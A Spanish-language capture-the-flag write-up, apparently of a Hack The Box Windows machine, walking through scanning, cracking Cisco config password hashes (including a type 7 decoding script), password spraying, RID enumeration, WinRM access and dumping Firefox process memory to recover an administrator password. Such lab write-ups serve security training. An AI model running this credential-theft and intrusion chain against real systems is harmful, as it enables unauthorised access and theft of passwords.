


Reconocimiento
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.149Nmap scan report for 10.10.10.149
Host is up (0.042s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
80/tcp open http Microsoft IIS httpd 10.0
| http-methods:
|_ Potentially risky methods: TRACE
| http-cookie-flags:
| /:
| PHPSESSID:
|_ httponly flag not set
| http-title: Support Login Page
|_Requested resource was login.php
|_http-server-header: Microsoft-IIS/10.0
135/tcp open msrpc Microsoft Windows RPC
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3.1.1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2022-04-06T13:56:12
|_ start_date: N/A
|_clock-skew: 5m43sEn la web podemos ver un panel de login y podemos entrar como guest

Una vez dentro, veriamos que se trata de una especie de panel de ticketing donde hay diferentes usuarios que guardamos los nombres y tiene un fichero adjuntado a un mensaje donde se encuentran contraseñas que podemos crackear.

!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!Explotación
Con john podemos crackear el md5:
john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long pass.txt
└─$ john --show pass.txt
?:stealth1agentY con el siguiente script en python que se puede encontrar por internet se pueden descifrar las otras dos passwords:
#!/usr/bin/env python3
import sys
from binascii import unhexlify
if len(sys.argv) != 2:
print(f"Usage: {sys.argv[0]} [level 7 hash]")
exit()
static_key = "tfd;kfoA,.iyewrkldJKD"
enc = sys.argv[1]
start = int(enc[:2], 16) - 1
enc = unhexlify(enc[2:])
key = static_key[start:] + static_key[:start]
plain = ''.join([chr(x ^ ord(key[i % len(key)])) for i, x in enumerate(enc)])
print(plain)┌──(maxter㉿kali)-[~/work]
└─$ python python.py 0242114B0E143F015F5D1E161713
$uperP@ssword
┌──(maxter㉿kali)-[~/work]
└─$ python python.py 02375012182C1A1D751618034F36415408
Q4)sJu\Y8qz*A3?dUsamos crackmapexec para comprobar si existe algun usuario con alguna contraseña para logearse en la máquina.
crackmapexec smb 10.10.10.149 -u usr.txt -p pass.txtSMB 10.10.10.149 445 SUPPORTDESK [+] SupportDesk\hazard:stealth1agentPodemos enumerar mas usuarios en la máquina en el caso de que los necesitaramos.
rpcclient -U 'hazard%stealth1agent' 10.10.10.149rpcclient $> lookupnames hazard
hazard S-1-5-21-4254423774-1266059056-3197185112-1008 (User: 1)
rpcclient $> lookupsids S-1-5-21-4254423774-1266059056-3197185112-1008
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)for i in {1000..1050}; do rpcclient -U 'hazard%stealth1agent' 10.10.10.149 -c "lookupsids S-1-5-21-4254423774-1266059056-3197185112-$i" | grep -v unknown; doneAñadimos los siguientes usuarios a la nuestra lista.
S-1-5-21-4254423774-1266059056-3197185112-1008 SUPPORTDESK\Hazard (1)
S-1-5-21-4254423774-1266059056-3197185112-1009 SUPPORTDESK\support (1)
S-1-5-21-4254423774-1266059056-3197185112-1012 SUPPORTDESK\Chase (1)
S-1-5-21-4254423774-1266059056-3197185112-1013 SUPPORTDESK\Jason (1)crackmapexec smb 10.10.10.149 -u chase -p pass.txtSMB 10.10.10.149 445 SUPPORTDESK [+] SupportDesk\chase:Q4)sJu\Y8qz*A3?d Nos conectamos con evil-winrm
└─$ evil-winrm -i 10.10.10.149 -u chase -p 'Q4)sJu\Y8qz*A3?d' Al movernos por la máquina no encontramos nada y podriamos mirar los procesos con el comando PS y nos encontramos algunos de firefox y podríamos intentar sacar algunas credenciales que tenga en el navegador.
1478 57 23496 79184 4316 1 explorer
347 19 10240 38684 0.05 1736 1 firefox
405 33 26756 84500 0.80 2584 1 firefox
1048 63 112260 188264 3.83 3672 1 firefox
385 28 21712 58504 0.97 6288 1 firefox
355 25 16432 39132 0.09 6652 1 firefox
49 6 1504 3852 756 0 fontdrvhost
49 6 1792 4648 764 1 fontdrvhostNos dumpeamos las credenciales con el Procdump y lo subimos con el comando upload de evil-winrm.
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -accepteula -ma 1736
ProcDump v10.11 - Sysinternals process dump utility
Copyright (C) 2009-2021 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com
[13:34:14] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_220419_133414.dmp
[13:34:14] Dump 1 writing: Estimated dump file size is 288 MB.
[13:34:16] Dump 1 complete: 288 MB written in 1.5 seconds
[13:34:16] Dump count reached.
*Evil-WinRM* PS C:\Users\Chase\Documents> Con el programa Strings podemos aclarar el fichero dmp a un txt algo mas visible para nosotros.
*Evil-WinRM* PS C:\Users\Chase\Documents> cmd /c "strings.exe -accepteula
firefox.exe_220419_133414.dmp > fichero.txt"Buscamos la posible contraseña en el fichero.txt
*Evil-WinRM* PS C:\Users\Chase\Documents> findstr "login_password" fichero.txt
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
RG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
MOZ_CRASHREPORTER_RESTART_ARG_1=localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
*Evil-WinRM* PS C:\Users\Chase\Documents> Comprobamos que usuario somos al entrar con evil-winrm
└─$ evil-winrm -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ' *Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
supportdesk\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ipconfig
Windows IP Configuration
Ethernet adapter Ethernet0 2:
Connection-specific DNS Suffix . : htb
IPv6 Address. . . . . . . . . . . : dead:beef::d8
IPv6 Address. . . . . . . . . . . : dead:beef::dcaf:64d7:3f43:1c72
Link-local IPv6 Address . . . . . : fe80::dcaf:64d7:3f43:1c72%15
IPv4 Address. . . . . . . . . . . : 10.10.10.149
Subnet Mask . . . . . . . . . . . : 255.255.255.0
Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:551%15
10.10.10.2
*Evil-WinRM* PS C:\Users\Administrator\Documents> Flag Chase:
*Evil-WinRM* PS C:\Users\Chase\Desktop> dir
Directory: C:\Users\Chase\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-a---- 4/22/2019 9:08 AM 121 todo.txt
-ar--- 4/19/2022 1:21 PM 34 user.txt
*Evil-WinRM* PS C:\Users\Chase\Desktop>Flag Administrator
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir
Directory: C:\Users\Administrator\Desktop
Mode LastWriteTime Length Name
---- ------------- ------ ----
-ar--- 4/19/2022 1:21 PM 34 root.txt
*Evil-WinRM* PS C:\Users\Administrator\Desktop>